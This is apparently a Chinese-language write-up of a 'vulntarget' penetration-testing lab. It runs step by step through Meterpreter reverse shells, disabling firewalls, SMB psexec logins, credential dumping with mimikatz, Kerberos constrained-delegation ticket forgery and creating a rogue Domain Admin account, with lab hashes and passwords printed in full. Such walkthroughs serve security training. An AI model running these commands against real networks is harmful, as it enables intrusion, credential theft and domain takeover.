


******

### 信息收集

- 测试发现蚁剑连接以后执行不了命令,只能翻阅文件
- 在家目录下找到`/home/vulntarget/key`这个文件,尝试下载到本地


- 挂上代理,用私钥连接








- 放行所有端口


- 上线msf

```cmd
!!!!先关防火墙,被坑了,想着放行就行了!!!!
sudo ufw disable

// 生成msf马并上传,我用的宝塔面板直接传
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.155 LPORT=10085 -f elf -o shell.e
lf

// 本地msf监听
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.155       
set LPORT 10085          
run
```


```cmd
run post/multi/manage/autoroute
```

******

### 继续探测

- 上传Fscan扫描`80`网段(注意:禁ping)

```
./fscan -h 192.168.88.0/24 -np
```


```cmd
root@ubuntu:/# ./fscan-linux -h 192.168.88.0/24 -np

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.88.0-192.168.88.255
[*] 已生成IP范围: 192.168.88.0 - 192.168.88.255
[*] 已解析CIDR 192.168.88.0/24 -> IP范围 192.168.88.0-192.168.88.255
[*] 最终有效主机数量: 256
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.88.100:22
[+] 端口开放 192.168.88.100:80
[+] 端口开放 192.168.88.102:135
[+] 端口开放 192.168.88.102:445
[+] 端口开放 192.168.88.100:888
[+] 端口开放 192.168.88.102:1433
[+] 端口开放 192.168.88.100:8888
[+] 存活端口数量: 7
[*] 开始漏洞扫描...
[*] NetInfo
[*] 192.168.88.102
   [->] WIN-N4DK5RPD2QU
   [->] 192.168.88.102
   [->] 10.0.10.9
[*] 网站标题 http://192.168.88.100:888 状态码:404 长度:548    标题:404 Not Found
[*] 网站标题 http://192.168.88.100:8888 状态码:302 长度:219    标题:Redirecting... 重定向地址: http://192.168.88.100:8888/login
[*] 网站标题 http://192.168.88.100:8888/login 状态码:200 长度:802    标题:安全入口校验失败
[+] 发现指纹 目标: http://192.168.88.100:8888/login 指纹: [宝塔]
[*] 网站标题 http://192.168.88.100     状态码:200 长度:1326   标题:没有找到站点
[!] 扫描错误 192.168.88.102:1433 - mssql: login error: 用户 'sql' 登录失败。
[!] 扫描错误 192.168.88.102:445 - 建立TCP连接失败: dial tcp 192.168.88.102:445: i/o timeout
[!] 扫描错误 192.168.88.100:22 - 扫描总时间超时: context deadline exceeded
[+] 扫描已完成: 7/7
[*] 扫描结束,耗时: 2m50.722787364s
```

- 发现主机`192.168.88.102`开放了`445`和`1433`两个服务

```cmd
root@ubuntu:/# ./fscan-linux -h 192.168.88.102 -np

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.88.102:1433
[+] 端口开放 192.168.88.102:445
[+] 存活端口数量: 2
[*] 开始漏洞扫描...
[+] MS17-010 192.168.88.102     (Windows Server 2008 HPC Edition 7601 Service Pack 1)
[!] 扫描错误 192.168.88.102:1433 - mssql: login error: 用户 'sql' 登录失败。
[+] 扫描已完成: 2/2
[*] 扫描结束,耗时: 3.16587906s
```

- 尝试爆破SMB

******

### 爆破SMB


- `administrator/admin@123`

```cmd
// 88.100执行
iptables -I INPUT -p tcp --dport 4446 -j ACCEPT

# 1  本地监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.88.100
set LPORT 4446
set ExitOnSession false
exploit -j

# 2 smb上线
use exploit/windows/smb/psexec
set rhost 192.168.88.102
set smbuser administrator
set smbpass admin@123
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.88.100
set LPORT 4446
set DisablePayloadHandler true
exploit
```


- 添加路由

```cmd
run post/multi/manage/autoroute
```

- 抓密码hash

```cmd
load kiwi
creds_all

meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username          Domain      LM                                NTLM                              SHA1
--------          ------      --                                ----                              ----
WIN-N4DK5RPD2QU$  VULNTARGET                                    dd026371e07cf6c5ccfcf21163ddd8da  cfe931cc1537e2e85463f6f592a2d2b60670299a
win2008           VULNTARGET  b7a7f6ace75537edb75e0c8d76954a50  96783bb69c00614e88f7d4688623c83a  9e31620a5d0fac7de1ac6f012a89cc36abdebe78

wdigest credentials
===================

Username          Domain      Password
--------          ------      --------
(null)            (null)      (null)
WIN-N4DK5RPD2QU$  VULNTARGET  32 17 dc dc 18 34 31 bd 8f ab 3e fd a9 e2 15 7f d7 7b d0 a6 e9 5d 63 f4 47 a3 29 fa 87 a5 ae 8d fd e2 66 e0 6b 49 12 82 2f 2d 5f dd 17 0c e3 d9 e3 3b 68 d5
                              2d 8e fe 1e 85 94 ed f0 e5 94 b4 12 1c b1 c5 1a c8 f9 09 64 a4 3f 23 57 d2 eb ab 88 1a d2 fe fb 56 de e0 8c 38 9c ac 82 99 eb dd f2 ec 30 5d b1 f1 95 2d 27
                              7c 32 d8 3b 0e 7f f1 1b 9d 73 1d a8 8c e4 2a 15 ca 19 35 66 2e 98 54 f6 e8 ce c3 54 ea 2d 83 45 56 93 af b7 b2 21 4d b0 d5 29 cc 2e 60 b4 1e 8b 91 76 e4 67
                              5a 96 7d de 88 da ed 31 a1 e8 4c 63 cf cd 06 ea 33 67 5b 33 a5 45 bb ac 28 f5 3a b1 e8 a2 27 ad 3f b4 4b be ab 24 eb bd ac 31 47 7d 25 e6 66 e3 7d 21 c1 bd
                              58 82 de 51 40 da aa 69 70 e2 d7 ca 2b c0 8c e0 8d 84 90 9d 82 e9 06 01 eb c6 ff 14 0e 6c 6a 14
win2008           VULNTARGET  qweASD123

tspkg credentials
=================

Username  Domain      Password
--------  ------      --------
win2008   VULNTARGET  qweASD123

kerberos credentials
====================

Username          Domain          Password
--------          ------          --------
(null)            (null)          (null)
win-n4dk5rpd2qu$  VULNTARGET.COM  32 17 dc dc 18 34 31 bd 8f ab 3e fd a9 e2 15 7f d7 7b d0 a6 e9 5d 63 f4 47 a3 29 fa 87 a5 ae 8d fd e2 66 e0 6b 49 12 82 2f 2d 5f dd 17 0c e3 d9 e3 3b 68
                                   d5 2d 8e fe 1e 85 94 ed f0 e5 94 b4 12 1c b1 c5 1a c8 f9 09 64 a4 3f 23 57 d2 eb ab 88 1a d2 fe fb 56 de e0 8c 38 9c ac 82 99 eb dd f2 ec 30 5d b1 f1 9
                                  5 2d 27 7c 32 d8 3b 0e 7f f1 1b 9d 73 1d a8 8c e4 2a 15 ca 19 35 66 2e 98 54 f6 e8 ce c3 54 ea 2d 83 45 56 93 af b7 b2 21 4d b0 d5 29 cc 2e 60 b4 1e 8b
                                  91 76 e4 67 5a 96 7d de 88 da ed 31 a1 e8 4c 63 cf cd 06 ea 33 67 5b 33 a5 45 bb ac 28 f5 3a b1 e8 a2 27 ad 3f b4 4b be ab 24 eb bd ac 31 47 7d 25 e6 66
                                   e3 7d 21 c1 bd 58 82 de 51 40 da aa 69 70 e2 d7 ca 2b c0 8c e0 8d 84 90 9d 82 e9 06 01 eb c6 ff 14 0e 6c 6a 14
win2008           VULNTARGET.COM  qweASD123


meterpreter > creds_tspkg 
[+] Running as SYSTEM
[*] Retrieving tspkg credentials
tspkg credentials
=================

Username  Domain      Password
--------  ------      --------
win2008   VULNTARGET  qweASD123
```

- 横向到最后一台`10.0.10.10`

******

### 伪造票据

```cmd
netsh advfirewall set allprofiles state off

// 开启3389
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' CALL SetAllowTSConnections 1

// 把用户加入可远程组
net localgroup "Remote Desktop Users" win2008 /add

// kekeo里执行
# 请求约束性委派用户的TGT
tgt::ask /user:win2008 /domain:vulntarget.com /password:qweASD123 /ticket:ash.kirbi
# 伪造S4U请求并访问CIFS服务
tgs::s4u /tgt:TGT_win2008@VULNTARGET.COM_krbtgt~vulntarget.com@VULNTARGET.COM.kirbi /user:Administrator@vulntarget.com /service:cifs/WIN-1PV25H8UJPN.vulntarget.com


//mimikatz执行
#导入ST
privilege::debug
kerberos::ptt TGS_Administrator@vulntarget.com@VULNTARGET.COM_cifs~WIN-1PV25H8UJPN.vulntarget.com@VULNTARGET.COM.kirbi
exit


#执行命令(每次执行命令都需要猕猴桃重新导入票据,所以先创建账户)
net user tomato A1B2C3.. /add /domain
net group "Domain Admins" tomato /add /domain
  

dir \\WIN-1PV25H8UJPN.vulntarget.com\C$
```


******

### 将剩下的主机上线CS

- 第二台主机`unbuntu`





- 第三台,创建`bind tcp`监听器,生成正向马连接


- 第四台,前面不是通过猕猴桃导入票据创建了`tomato`用户吗,直接横移过去




- 查找`flag`

```cmd
shell dir C:\ /s /b | findstr /i fla
shell type C:\flag.txt.txt
```



- 至此所有主机已上线,最终完整拓扑图


